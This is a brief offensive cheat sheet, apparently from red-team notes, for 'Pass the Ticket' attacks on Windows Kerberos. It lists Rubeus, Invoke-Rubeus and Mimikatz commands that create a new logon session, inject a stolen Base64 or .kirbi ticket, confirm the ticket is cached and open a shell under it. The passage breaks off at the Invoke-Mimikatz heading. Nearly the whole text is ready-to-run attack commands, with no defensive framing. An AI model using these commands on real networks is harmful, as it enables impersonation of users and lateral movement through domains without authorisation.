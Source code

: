 ## Pass the Ticket (PtT)

### 1) Rubeus (Binary)

##### Method 1: Pass ticket into seperate session (Preferred)
##### Create new LUID session (Requires Elevation)

    Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

##### Pass ticket into new session

    Rubeus.exe ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]

##### Method 2: Pass ticket directly into current session (Can cause auth issues)

    Rubeus.exe ptt /ticket:[Base64 ticket]

### 2) Invoke-Rubeus

##### Method 1: Pass ticket into seperate session (Preffered)
##### Create new LUID session (Requires Elevation)

    Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

##### Pass ticket into new session

    Invoke-Rubeus -Command "ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]"

##### Method 2: Pass ticket directly into current session (Can cause auth issues)

    Invoke-Rubeus -Command "ptt /ticket:[Base64 ticket]"

### 3) Mimikatz

##### Pass ticket into current session

    kerberos::ptt [Ticket-Name.kirbi]

##### Confirm if ticket has been stored

    kerberos::list

##### Open new session with injected ticket

    misc::cmd

### 4) Invoke-Mimikatz

##### Pass ticket into current session
